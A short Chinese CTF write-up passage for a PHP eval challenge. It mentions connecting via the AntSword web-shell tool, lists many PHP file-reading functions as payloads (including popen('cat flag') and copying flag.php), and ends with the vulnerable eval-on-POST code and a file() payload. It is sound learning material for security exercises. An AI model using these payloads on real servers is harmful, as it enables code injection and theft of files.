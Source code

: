 本题还可以蚁剑连接得到答案

补充一些php查看文件的函数

```php
直接读取
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
----------------------------------------------------------------------------------------
通过复制，重命名读取php文件内容
copy("flag.php","flag.txt");
rename("flag.php","flag.txt");
----------------------------------------------------------------------------------------
通过fopen读文件内容
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetss($a);echo $line;}
$a=fopen("flag.php","r");echo fpassthru($a);
$a=fopen("flag.php","r");echo fread($a,"1000");
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);print_r($line);}
```

#### 59

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`没被禁用，但是换种办法

`var_dump(file('flag.php'));`
